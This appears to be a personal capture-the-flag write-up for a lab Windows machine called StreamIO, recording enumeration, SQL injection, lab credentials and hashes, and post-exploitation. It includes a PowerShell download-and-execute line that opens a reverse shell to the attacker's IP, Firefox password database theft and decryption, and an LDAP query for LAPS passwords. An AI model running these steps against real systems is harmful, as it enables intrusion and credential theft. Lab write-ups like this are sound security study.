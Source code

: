 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings

## External
### Enumeration
![](https://i.imgur.com/REjC6ZJ.jpeg)
- `  oliver@Streamio.htb  `
- The https/http main domains are not working.
	- so i tried the watch subdomain.
- ![](https://i.imgur.com/UXV2Lep.png)
![Uploading file...q3c3j]()
- During Manual SQL injection try to use numbers on the 1st place `32'` not `a'` 
![](https://i.imgur.com/X0Xybuy.png)
![Uploading file...8sgky]()
```shell
##### db_accessadmin

3

##### db_backupoperator

3

##### db_datareader

3

##### db_datawriter

3

##### db_ddladmin

3

##### db_denydatareader

3

##### db_denydatawriter

3

##### db_owner

3

##### db_securityadmin

3

##### dbo

3

##### guest

3

##### INFORMATION_SCHEMA

3

##### sys

3

##### 2012

2009
```
![](https://i.imgur.com/di5hOLL.jpeg)

![](https://i.imgur.com/PI4SmpS.png)
` yoshihide : 66boysandgirls..`
![](https://i.imgur.com/I8XkIZ1.png)
![](https://i.imgur.com/Zykbblt.png)
![](https://i.imgur.com/ndHScG0.png)
![](https://i.imgur.com/wMyM51J.png)
```shell
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
$handle = sqlsrv_connect('(local)',$connection);

```
![](https://i.imgur.com/hrMLzRD.png)
![](https://i.imgur.com/bT4ZcDp.png)
- There the php is debugging the include value. so i planned to do RCE. for this i will Use [ConPTYSHELL](https://github.com/antonioCoco/ConPtyShell).
- **STEP 1**:
```shell
rexder@HunterMachine ~/C/H/M/streamio> cat rex.php
system("powershell IEX(IWR http://10.10.14.27/conpty-shell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.27 3001");
```
- **STEP 2**:
```shell
rexder@HunterMachine ~/C/H/M/streamio> python3 -m http.server 80 -d ~/Exploit/
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.158 - - [10/Jun/2024 20:15:44] "GET /conpty-shell.ps1 HTTP/1.1" 200 -
```
- Then I will type the url on the RFI and BOOm i will have windows shell
![](https://i.imgur.com/3gJjYxg.png)
### Gaining Access
![](https://i.imgur.com/m3NDgr2.png)
- I did it with metasploit too
	- ![](https://i.imgur.com/kk7UyGm.png)
## Internal
### Enumeration
`  Hash:    yoshihide::streamIO:1122334455667788:1205487ab5519030acac743e00b9f201:0101000000000000a20af4f999bbda0181c6ff19083836e5000000000800300030000000000000000000000000210000906bfdeeda0a839ff60520a0ae3ad3f29e9edc9a6e1c788ea71b73cc61fde5730a00100000000000000000000000000000000000090000000000000000000000 `
```shell
PS C:\inetpub\streamio.htb\admin> sqlcmd -U db_admin -P B1@hx31234567890 -Q 'SELECT * FROM streamio_backup..users'
sqlcmd -U db_admin -P B1@hx31234567890 -Q 'SELECT * FROM streamio_backup..users'
id          username                                           password
----------- -------------------------------------------------- --------------------------------------------------
          1 nikk37                                             389d14cb8e4e9b94b137deb1caf0612a
          2 yoshihide                                          b779ba15cedfd22a023c4d8bcf5f2332
          3 James                                              c660060492d9edcaa8332d89c99c9239
          4 Theodore                                           925e5408ecb67aea449373d668b7359e
          5 Samantha                                           083ffae904143c4796e464dac33c1f7d
          6 Lauren                                             08344b85b329d7efd611b7a7743e8a09
          7 William                                            d62be0dc82071bccc1322d64ec5b6c51
          8 Sabrina                                            f87d3c0d6c8fd686aacc6627f1f493a5

(8 rows affected)

PS C:\inetpub\streamio.htb\admin> net user
net user

User accounts for \\DC

-------------------------------------------------------------------------------
Administrator            Guest                    JDgodd
krbtgt                   Martin                   nikk37
yoshihide
```
![](https://i.imgur.com/go6hH4w.png)
` nikk37 : get_dem_girls2@yahoo.com `

Winpeas Displayed
` Firefox credentials file exists at C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db`
- So lets Crack the Firefox Password Database
```powershell
*Evil-WinRM* PS C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release> download C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\logins.json

Info: Downloading C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\logins.json to logins.json

*Evil-WinRM* PS C:\Program Files> download C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db

Info: Downloading C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db to key4.db

Info: Download successful!
```
- Next we can use the `firepwd.py`
```shell
rexder@HunterMachine ~/C/H/M/streamio> python3 ~/Exploit/firepwd/firepwd.py -d .
globalSalt: b'd215c391179edb56af928a06c627906bcbd4bd47'
 SEQUENCE {
   SEQUENCE {

<SNIP>

clearText b'b3610ee6e057c4341fc76bc84cc8f7cd51abfe641a3eec9d0808080808080808'
decrypting login/password pairs
https://slack.streamio.htb:b'admin',b'JDg0dd1s@d0p3cr3@t0r'
https://slack.streamio.htb:b'nikk37',b'n1kk1sd0p3t00:)'
https://slack.streamio.htb:b'yoshihide',b'paddpadd@12'
https://slack.streamio.htb:b'JDgodd',b'password@12'
```
### Gaining Access
![](https://i.imgur.com/VnSB2Fp.png)
` JDgodd : JDg0dd1s@d0p3cr3@t0r `
ldapsearch -h streamio.htb -b 'DC=streamIO,DC=htb' -x -D JDgodd@streamio.htb -w 'JDg0dd1s@d0p3cr3@t0r' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
### Maintaining Access


# Random Notes